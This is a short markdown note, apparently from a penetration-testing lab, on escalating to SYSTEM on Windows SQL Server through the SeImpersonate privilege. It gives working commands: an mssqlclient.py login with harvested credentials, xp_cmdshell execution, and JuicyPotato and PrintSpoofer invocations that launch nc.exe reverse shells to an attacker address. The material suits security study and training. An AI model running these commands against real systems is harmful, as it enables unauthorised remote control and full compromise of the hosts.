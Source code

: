 # SeImpersonate Example - JuicyPotato

Gaining foothold on SQL Server using privileged SQL user.

- Achieve RCE using `xp_cmdshell` using creds from `logins.sql`
- Connect with MSSQLClient.py
```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

- Enabling xp_cmdshell
- `xp_cmdshell whoami /priv`
- Drop JuicyPotato.exe and nc.exe onto the target
```
xp_cmdshell c:\tools\Juicypotato.exe -l 53375 c:\windows\system32\cmd.exe 
    -a "/c c:\tools\nc.exe 10.10.14.3 -e cmd.exe" -t *
```

## Print Spoofer and RoguePotato

JuicyPotato doesn't work on WinServer 2019/Win10 build 1809 and newer.
However, PrintSpoofer and RoguePotato can be used.

PrintSpoofer can spawn a SYSTEM process in your current console.
```
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

